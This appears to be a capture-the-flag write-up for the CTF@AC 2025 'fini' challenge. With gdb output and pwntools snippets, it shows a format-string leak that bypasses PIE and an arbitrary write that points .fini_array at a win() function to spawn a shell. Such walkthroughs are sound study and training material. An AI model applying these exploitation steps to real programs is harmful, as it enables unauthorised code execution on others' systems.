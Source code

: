 ```yaml
---
title: "CTF@AC 2025 – fini: Hijacking .fini_array for a shell"
date: 2025-09-14
toc: true
---
```


> *Hope you can FINIsh this challenge.*

```bash
$ file ./challenge | tr ',' '\n'
./challenge: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=4293e516c8a744cddc10088c31128d37fd365557
 for GNU/Linux 3.2.0
 not stripped

$ pwn checksec ./challenge
[*] '/home/kali/Desktop/ctfs/others/fini/challenge'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

$ ./challenge 
=== FINIsh this challenge ;) ===
What's your name?
z0v3r1n
Hello, z0v3r1n
!
1) write
2) exit
> 1
Addr (hex): 1234
Value (hex, 8 bytes): abc
zsh: segmentation fault  ./challenge
```

Looking at the defined functions we find a `win()` function:

```
pwndbg> info func                                  
All defined functions:

Non-debugging symbols:                             
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  system@plt
0x0000000000001050  printf@plt
0x0000000000001060  fgets@plt                      
0x0000000000001070  setvbuf@plt                    
0x0000000000001080  __isoc99_scanf@plt
0x0000000000001090  exit@plt
0x00000000000010a0  __cxa_finalize@plt
0x00000000000010b0  main
0x0000000000001290  _start
0x00000000000012c0  deregister_tm_clones
0x00000000000012f0  register_tm_clones
0x0000000000001330  __do_global_dtors_aux
0x0000000000001370  frame_dummy
0x0000000000001380  win
0x000000000000138c  _fini

pwndbg> disas win
Dump of assembler code for function win:
   0x0000000000001380 <+0>:     lea    rdi,[rip+0xc7d]        # 0x2004
   0x0000000000001387 <+7>:     jmp    0x1040 <system@plt>
End of assembler dump.

pwndbg> x/s 0x2004   
0x2004: "/bin/sh" 
```

Looking at the implementation of the greeting in the `main()` function we can see that the program prints our name unsafely i.e. without any format specifiers giving rise to fmt-string vulnerability.

```c
  puts("=== FINIsh this challenge ;) ===");
  puts("What\'s your name?");
  fgets((char *)name,0x80,stdin);
  printf("Hello, ");
  printf((char *)name);
```

We can confirm the fmt-string vulnerability by inputting a fmt-string:

```shell
$ ./challenge        
=== FINIsh this challenge ;) ===
What's your name?
%x.%x
Hello, 341636c0.0
!
1) write
2) exit
> ^C
```

We can use this fmt-string vulnerability to leak a PIE addr using which we can bypass ASLR.

```
$ gdb -q ./challenge
...SNIP...
pwndbg> disas main
```

![](https://github.com/user-attachments/assets/bdb321d0-f439-42ca-bf25-c6e28b3168d7)

Breaking after the `fgets()` call to analyze the memory around our input:

```shell
pwndbg> b *main+146
Breakpoint 1 at 0x1142
pwndbg> r
...SNIP...
=== FINIsh this challenge ;) ===
What\'s your name?
AAAAAAAA

Breakpoint 1, 0x0000555555555142 in main ()
...SNIP...
pwndbg> search AAAAAAAA stack
Searching for byte: b'AAAAAAAA'
[stack]         0x7fffffffdc00 'AAAAAAAA\n'

pwndbg> vmmap
...SNIP...
►   0x555555554000     0x555555555000 r--p     1000       0 challenge
►   0x555555555000     0x555555556000 r-xp     1000    1000 challenge
►   0x555555556000     0x555555557000 r--p     1000    2000 challenge
►   0x555555557000     0x555555558000 rw-p     1000    2000 challenge
...SNIP
    
pwndbg> dq 0x7fffffffdc00 30
00007fffffffdc00     4141414141414141 000000000000000a
00007fffffffdc10     0000000000040000 ffffffffffffffff
00007fffffffdc20     0000000000000040 0000000000000004
00007fffffffdc30     0000000000008000 0000000000000000
00007fffffffdc40     0000008e00000006 0000000000000000
00007fffffffdc50     0000000000000000 0000000000000000
00007fffffffdc60     0000000000000000 0000000000000000
00007fffffffdc70     0000000000000000 0000000000000000
00007fffffffdc80     00007fffffffddb8 0000000000000001
00007fffffffdc90     0000000000000000 00007fffffffddc8
00007fffffffdca0     00007ffff7ffd000 00007ffff7dd9ca8
00007fffffffdcb0     00007fffffffdda0 00005555555550b0
00007fffffffdcc0     0000000155554040 00007fffffffddb8
00007fffffffdcd0     00007fffffffddb8 6a511514e74da407
00007fffffffdce0     0000000000000000 00007fffffffddc8

pwndbg> p (0x00007fffffffdcb0-0x00007fffffffdc00)/8 + 9
$3 = 31
```

Leaking the PIE address using the fmt-string vulnerability:

```
$ ./challenge
=== FINIsh this challenge ;) ===
What's your name?
%31$lx
Hello, 55ca370b20b0
!
1) write
2) exit
> ^C
```

We can calculate the PIE base by substracting the offset:

```python
io.sendlineafter(b"?", b"%31$lx")
io.recvuntil(b", ")
pieBase = int(io.recvline().strip(), 16) - 0x10b0
log.success(f"pieBase: {hex(pieBase)}")
```

![](https://github.com/user-attachments/assets/15e61dd5-be72-42a3-b61d-f5e7e58cc405)

Now as the name of the challenge is **fini** which points us to the `.fini_array` which contains an array of functions which are executed sometime after main returns.

```
pwndbg> info file
		...SNIP...
        0x00000000000031c8 - 0x00000000000031d0 is .fini_array
		...SNIP...
```

We can overwrite this to the address of `win()` function so, when the main returns and the `.fini_array` function entries are executed our `win()` function spawns a shell.

Setting up the overwrite:

```python
FINI_ARRAY = pieBase + 0x31c8
WIN_ADDR   = pieBase + 0x1380

io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"(hex): ", hex(FINI_ARRAY).encode())
io.sendlineafter(b"(hex, 8 bytes): ", hex(WIN_ADDR).encode())
```

We can confirm the overwrite in `gdb`:

```
pwndbg> info file
		...SNIP...
        0x000055e8d60221c8 - 0x000055e8d60221d0 is .fini_array
		...SNIP...

pwndbg> p win
$1 = {<text variable, no debug info>} 0x55e8d6020380 <win>

pwndbg> x/gx 0x000055e8d60221c8
0x55e8d60221c8: 0x000055e8d6020380
```

Now, as we have overwritten the `.fini_array[0]` when we exit our `win()` function will be executed which will spawn a shell.

```python
io.sendlineafter(b"> ", b"2")
io.interactive()
```

![](https://github.com/user-attachments/assets/98e5bc85-b0b8-4da0-8058-988922b34fc1)

You can find the full exploit script [here](https://raw.githubusercontent.com/z0v3r1n/z0v3r1n.github.io/main/content/posts/ctf_ac_fini/exploit.py).


